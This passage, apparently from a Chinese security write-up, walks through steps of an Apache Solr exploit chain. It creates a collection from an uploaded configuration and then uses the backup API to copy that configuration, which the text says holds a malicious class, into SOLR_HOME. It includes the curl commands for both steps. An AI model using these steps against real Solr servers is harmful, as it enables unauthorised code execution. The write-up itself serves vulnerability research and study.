 [![](assets/1708941329-9cc3cfbf32ca8fe1b418a5836f0add40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224842-7c029efc-c823-1.png)

### 用`conf1`创建`collection1`

用上一步上传的配置`conf1`去创建一个 Collection，名为`collection1`

```plain
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection1&numShards=1&replicationFactor=1&wt=json&collection.configName=conf1"
```

[![](assets/1708941329-45b41e2a33da078d55d0e3cda081ad96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224850-8110acfe-c823-1.png)

### 备份`collection1`，导出`conf1`

通过备份功能可以将`collection1`导出，其中包括创建`collection1`时用的配置文件，也就是`conf1`，从而恶意 class 也随之导出。

以下 API 中`location`为要导出的路径，`/var/solr/data/`是`SOLR_HOME`的路径。`name`为导出的名字，其实也就相当于路径的一部分

```plain
curl "http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/&name=collection2_shard1_replica_n1"
```

[![](assets/1708941329-5a402bb19ffdb768b125b5cbcba09f9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224858-858d20b4-c823-1.png)
